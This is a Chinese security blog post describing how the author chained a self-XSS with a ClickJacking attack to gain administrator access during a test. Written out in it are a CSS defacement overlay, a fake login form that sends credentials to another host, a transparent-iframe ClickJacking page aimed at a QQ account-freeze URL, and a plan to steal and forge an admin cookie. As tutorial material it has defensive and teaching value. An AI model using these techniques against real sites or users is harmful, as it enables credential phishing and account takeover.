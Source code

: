 ```yaml
---
layout: post
author: Vulkey_Chen
title: "鸡肋点搭配ClickJacking攻击-获取管理员权限"
date: 2017-12-20
permalink: /archives/2017-12-20/1
description: "笔者挖到了一个selfxss，在思考之后想起了ClickJacking，于是结合之..."
---
```


# 前言

有一段时间没做测试了，偶尔的时候也会去挖挖洞。本文章要写的东西是我利用`ClickJacking`拿下管理员权限的测试过程。但在说明过程之前，先带大家了解一下`ClickJacking`的**基本原理以及简单的漏洞挖掘**。

# ClickJacking

ClickJacking背景说明:

> ClickJacking（点击劫持）是由互联网安全专家罗伯特·汉森和耶利米·格劳斯曼在2008年首创的。
> ClickJacking是一种视觉欺骗攻击手段，在web端就是iframe嵌套一个透明不可见的页面，让用户在不知情(被欺骗)的情况下，点击攻击者想要欺骗用户点击的位置。

说道视觉欺骗，相信有`炫技`经验的朋友们一定会想到，自己一个后台拿不下Webshell权限的时候，而想要黑掉首页从而达到炫技，使用的是什么呢？没错一般使用CSS样式表来劫持首页以造成黑掉的假象~

```html
<table style="left: 0px; top: 0px; position: fixed;z-index: 5000;position:absolute;width:100%;height:300%;background-color: black;"><tbody><tr><td style="color:#FFFFFF;z-index: 6000;vertical-align:top;"><h1>hacked by key</h1></td></tr></tbody></table>
```

![CSS jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x00.png)

除了可以炫技，CSS劫持可以做的东西也有很多：例如经典的form表单钓鱼攻击

```html
<table+style="left:+0px;+top:+0px;+position:+fixed;z-index:+5000;position:absolute;width:100%;background-color:white;"><tr><td><form action="http://192.168.0.109/login.php" method="post">账号：<input type="text" name="name"><br>密码：<input type="password" name="pwd"><br><input type="submit" value="登陆"></form><td></tr></table>
```

![CSS jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x01.png)

这里就不对代码的意思进行解读了，可以看到CSS劫持达到的视觉欺骗攻击效果还是比较LOW的，因为这样的攻击手段偏被动式。而我要说的点击劫持其实也算是被动式，不过相对来说比较容易获得信任让被动式触发，这里只是单单对攻击手法谁的成功率比较高作为比较

前面背景介绍的时候说了，点击劫持攻击其实就是镶嵌一个iframe框架(**存在点击劫持漏洞的页面**)在页面上，然后再把其修改为透明的样式。这样的操作只是造成了视觉欺骗，还没达到欺骗点击的效果，所以就需要知道iframe框架其按钮的位置，然后在基于透明层模拟一个位置大小相同的按钮，发给用户让其点击~~

这里以QQ安全中心的一个点击劫持为例，作为一个QQ的资深用户应该知道QQ是有安全中心紧急冻结QQ服务的，只要登录自己的安全中心就可以冻结，**地址(漏洞地址，目前漏洞已经修复)**为：<https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985>

![QQ Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x02.png)

一点击，你的QQ就被会冻结(当时不知道逗了多少人~)，那这样怎么利用呢？

1.建立iframe框架:

```html
<iframe id="frame" src="https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985"></iframe>
```

2.建立iframe的CSS样式:

```css
#frame {
    border: 0px; /*边框属性为0*/
    height: 100%; /*框架高度100%*/
    width: 100%; /*框架宽度100%*/
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
```

3.获取iframe框架引用的原页面的按钮位置和大小:

大小直接通过审查元素可以看得到:

![QQ Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x03.png)

现在要获取的就是按钮元素到浏览器顶部的距离，这里通过`id.offsetTop`有些时候是无法直接获取的:

> \>\>span_verify.offsetTop
> ←16

获取到的是16~很醉，所以使用如下的方法直接获取:

```javascript
document.getElementById('span_verify').getBoundingClientRect().top
```

![QQ Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x04.png)
4.建立按钮:

```html
<input type="button" class="button" value="Click" />
```

5.根据第三步骤获取到的建立按钮样式:

```css
.button {
    position: fixed;
    width: 100%;
    height: 42px;
    margin: 0 auto;
    left: 0;
    right: 0;
    display: block;
    top: 278px;
} 
```

6.散播，用户中招:
![QQ Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x05.png)
![QQ Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x06.png)

## 一次点击劫持攻击案例

说了这么多，在前几天的测试中我是如何拿到管理员权限呢？挖掘到一处self-xss，这里先说明下self-xss可以理解为只能攻击myself~

发现流程:

**发现输入框->秉着见框就X的原理插入XSS Payload->弹框->发现成功**

然而获取到的URL链接是`/?keyword=<script>alert(1)</script>`，但是不是xss，keyword的值显示在输入框内，需要你再点击`搜索标题按钮`才可以触发漏洞。

**形成的攻击思路->iframe嵌套漏洞URL链接->Click Jacking攻击页面构造->通过留言给管理员引诱触发**

![Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x07.png)

攻击页面构造流程其实耐心读到这里的朋友已经是非常明确步骤了:

**建立iframe框架->建立iframe框架CSS样式->获取按钮位置大小->建立按钮->建立按钮CSS样式->留言板留言外网攻击链接->获取管理员Cookie->Cookie伪造进入后台**

# 结尾

一次很有意思的实践，让自己满满的成就感，同时也完成了项目任务~
